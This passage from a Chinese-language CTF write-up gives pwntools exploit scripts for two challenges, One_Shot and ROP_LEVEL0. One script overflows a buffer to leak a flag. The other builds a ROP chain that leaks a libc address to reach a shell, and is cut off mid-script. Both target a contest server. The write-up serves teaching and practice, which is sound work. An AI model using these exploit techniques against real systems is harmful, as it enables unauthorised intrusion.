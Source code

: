 ```
r.sendline(str(0x000000050fd28949))

r.interactive() 
```

**###One_Shot**

程序读取flag，然后要求输入name，最大可以输入32个字节，name实际能存储的加上\x00也就32个字节，然后马上到flag储存的内容，程序还会输出name，那么flag也会跟着一起输出。

```
#!/usr/bin/python
#coding:utf-8
from pwn import *
from time import *
from LibcSearcher import *

context.log_level="debug"

EXEC_FILE = "./ROP_LEVEL0"
REMOTE_LIBC = "./db/libc6_2.24-9ubuntu2.2_amd64.so"

r = remote('47.103.214.163',20002)
elf = ELF(EXEC_FILE)
#libc = ELF(REMOTE_LIBC)

r.recvuntil('?')
r.sendline('a'*32)
r.recvuntil('!')
r.sendline(str(0x6010E0))
print r.recv() 
```

```
r.interactive() 
```

**###ROP_LEVEL0**

该题目存在一个溢出点，可以覆盖返回地址先通过puts函数输出read函数的地址，然后通过LibcSearcher匹配到相应的libc版本。再跳回主函数，再次溢出。通过相应的libc版本得到system地址和"/bin/sh"地址，运行system函数getshell。

```
#!/usr/bin/python
#coding:utf-8
from pwn import *
from time import *
from LibcSearcher import *

context.log_level="debug"

EXEC_FILE = "./ROP_LEVEL0"
REMOTE_LIBC = "./db/libc6_2.24-9ubuntu2.2_amd64.so"

r = remote('47.103.214.163',20003)
elf = ELF(EXEC_FILE)
#libc = ELF(REMOTE_LIBC)

read_got = elf.got['read']
puts_plt = elf.plt['puts']
#padding == 88

r.recv()
payload = 'a'*88
payload += p64(0x400753)# pop rdi
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(0x040065C)
```